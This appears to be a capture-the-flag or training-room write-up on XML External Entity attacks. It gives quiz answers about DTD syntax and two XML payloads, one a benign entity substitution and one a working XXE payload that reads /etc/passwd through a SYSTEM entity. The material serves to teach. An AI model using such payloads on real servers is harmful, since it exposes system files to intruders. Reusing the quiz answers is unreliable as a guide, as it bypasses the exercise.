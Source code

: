 {% hint style="success" %}
`XML Prolog`
{% endhint %}

## \[Severity 4] XML External Entity - DTD

#### **How do you define a new ELEMENT?**

```
!ELEMENT
```

#### **How do you define a ROOT element?**

```
!DOCTYPE
```

#### **How do you define a new ENTITY?**

```
!ENTITY
```

## \[Severity 4] XML External Entity - XXE Payload

```markup
<!DOCTYPE replace [<!ENTITY name "feast"> ]>
<userInfo>
  <firstName>falcon</firstName>
  <lastName>&name;</lastName>
</userInfo>
```

```markup
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
<root>&read;</root>
```

## \[Severity 4] XML External Entity - Exploiting

#### Try to display your own name using any payload.

![](<../../.gitbook/assets/Screenshot from 2022-04-17 18-33-27.png>)
